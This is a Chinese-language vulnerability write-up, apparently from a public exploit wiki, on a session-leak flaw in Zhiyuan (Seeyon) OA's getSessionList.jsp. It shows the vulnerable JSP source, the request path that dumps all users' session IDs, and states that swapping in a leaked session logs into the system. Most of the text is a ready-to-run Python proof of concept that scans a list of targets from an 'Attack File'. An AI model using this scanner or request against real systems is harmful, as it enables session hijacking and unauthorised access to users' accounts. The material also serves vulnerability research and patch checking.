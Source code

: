 # 致远OA getSessionList.jsp Session泄漏漏洞

## 漏洞描述

通过使用存在漏洞的请求时，会回显部分用户的Session值，导致出现任意登录的情况

## 影响版本

> [!NOTE]
>
> 未知

## 漏洞复现

源码

```jsp
<%@ page contentType="text/html;charset=GBK"%>
<%@ page session= "false" %>
<%@ page import="net.btdz.oa.ext.https.*"%>
<%
    String reqType = request.getParameter("cmd");
    String outXML = "";
    boolean allowHttps = true;
    if("allowHttps".equalsIgnoreCase(reqType)){
        //add code to judge whether it allow https or not
        allowHttps = FetchSessionList.checkHttps();
        if (allowHttps) response.setHeader("AllowHttps","1");
    }
    if("getAll".equalsIgnoreCase(reqType)){
        outXML = FetchSessionList.getXMLAll();
    }
    else if("getSingle".equalsIgnoreCase(reqType)){
        String sessionId = request.getParameter("ssid");
        if(sessionId != null){
            outXML = FetchSessionList.getXMLBySessionId(sessionId);
        }
    }
    else{
        outXML += "<?xml version=\"1.0\" encoding=\"GB2312\"?>\r\n";
        outXML += "<SessionList>\r\n";
//        outXML += "<Session>\r\n";
//        outXML += "</Session>\r\n";
        outXML += "</SessionList>\r\n";
    }
    out.println(outXML);
%>
```

从上面的代码可知，当cmd参数为getAll时，便可获取到所有用户的SessionID ,请求 

```
http://xxx.xxx.xxx.xxx/yyoa/ext/https/getSessionList.jsp?cmd=getAll
```

回显Session则存在漏洞

![](http://wikioss.peiqi.tech/vuln/zhiyuan-21.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

通过替换 Session即可登陆系统

## 漏洞利用POC

```python
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mVersion: 致远OA A6                                              \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mFile         >>> ip.txt                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/yyoa/ext/https/getSessionList.jsp?cmd=getAll"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        if "/yyoa/index.jsp" not in response.text and "<sessionID>" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {}存在漏洞,Session地址:{} \033[0m".format(target_url, vuln_url))
        else:
            print("\033[31m[x] 目标 {}不存在漏洞 \033[0m".format(target_url))
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m")

def Scan(file_name):
    with open(file_name, "r", encoding='utf8') as scan_url:
        for url in scan_url:
            if url[:4] != "http":
                url = "http://" + url
            url = url.strip('\n')
            try:
                POC_1(url)

            except Exception as e:
                print("\033[31m[x] 请求报错 \033[0m")
                continue

if __name__ == '__main__':
    title()
    file_name  = str(input("\033[35mPlease input Attack File\nFile >>> \033[0m"))
    Scan(file_name)
```

![](http://wikioss.peiqi.tech/vuln/zhiyuan-22.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)